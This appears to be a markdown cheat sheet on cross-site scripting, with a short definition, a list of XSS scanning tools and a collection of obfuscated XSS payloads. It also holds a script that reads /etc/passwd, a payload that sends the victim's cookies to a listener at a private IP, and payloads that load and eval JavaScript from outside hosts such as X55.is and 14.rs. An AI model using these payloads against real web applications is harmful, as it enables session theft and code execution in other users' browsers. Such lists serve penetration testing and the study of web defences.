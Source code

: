 # Cross Site Scripting

Cross-site scripting (XSS) is a type of computer security vulnerability typically found in web applications. XSS enables attackers to inject client-side scripts into web pages viewed by other users and potentially read from browser storage amoung some of the simplest attacks.

[Tools](#tools)
[Payloads](#payloads)

## Tools

xsser [https://xsser.03c8.net/]

dalfox [https://dalfox.hahwul.com/docs/home/] 

XSpear [https://github.com/hahwul/XSpear]

domdig [https://github.com/fcavallarin/domdig]

XSSStrike [https://github.com/s0md3v/XSStrike]


## Sample Payloads

```
ufm"><a href=ja&#x0000A;va&#x73;cript&colon;al&#x65;rt``>
ufm"><a href="https://bing.com/" title="title">xss <img onerror=alert(1) src=x></a>
ufm"><a href="https://gitlab.com/wbowling/private-project/-/issues/1" title="title">xss &lt;img onerror=alert(1) src=x></a>
ufm"><svg/onload=write('\74img/src/o\156error\75alert\501\51\76')>
ufm"><iframe/onload=import(/\\Ǌ.₨/)>
ufm"><svg/onload=&#97&#108&#101&#114&#00116&#40&#41&#x2f&#x2f
ufm"><input onfocus=alert(document.domain) </autofocus>
ufm"><embed src=# onload=confirm(8)>
ufm"><input type="datetime-local"</onchange=alert(8)//
ufm"><img src=x onerror=eval(atob('YWxlcnQoJ0kgb25seSB3cml0ZSBsYW1lIFBvQ3MnKQ==')) />
ufm"><x/ onpointerRawupdatE=+alert&#40;document.domain&#41;>Tocuch me!
ufm"><img src='1' onerror='alert(0)' <
ufm"><svg/onload=location=`javas`+`cript:ale`+`rt%2`+`81%2`+`9`;//
ufm"><img src=1 alt=al lang=ert onerror=top[alt+lang](0)>
ufm"><script ~~~>confirm(1)</script ~~~>
ufm"><</script/script><script ~~~>\u0061lert(1)</script ~~~>
ufm"><img src onerror=\u0061\u006C\u0065\u0072\u0074(1) />
ufm"><img src onerror=\u{61}\u{6C}\u{65}\u{72}\u{74}(1) />
ufm"><object data="data:text/html;charset=iso-8859-7,%3c%73%63%72%69%70%74%3e%61%6c%65%72%74%28%31%29%3c%2f%73%63%72%69%70%74%3e"></object>
ufm"><Img Src=https://X55.is OnLoad=import(src)>
ufm"><iframe/src=https://X55.is onpointerRawupdatE=import(src)>
```

## Read a file

```
<script>x=new XMLHttpRequest;x.onload=function(){document.write(this.responseText)};x.open("GET","file:///etc/passwd");x.send();</script>
```

## Read a cookie

```
<script>new Image().src="http://192.168.119.208:8000/cool.jpg?output="+document.cookie;</script>
```

## Remote Javascript

```
ufm"><svg/onload='fetch("//host/a").then(r=>r.text().then(t=>eval(t)))'>
ufm"><script src=14.rs>
```

## DOM Based

| Vuln | JS to Use |
| ----              | ---- |
| DOM XSS           | `document.write()` |
| Open Redirect     | `window.location` |
| Read Cookies      | `document.cookie` |
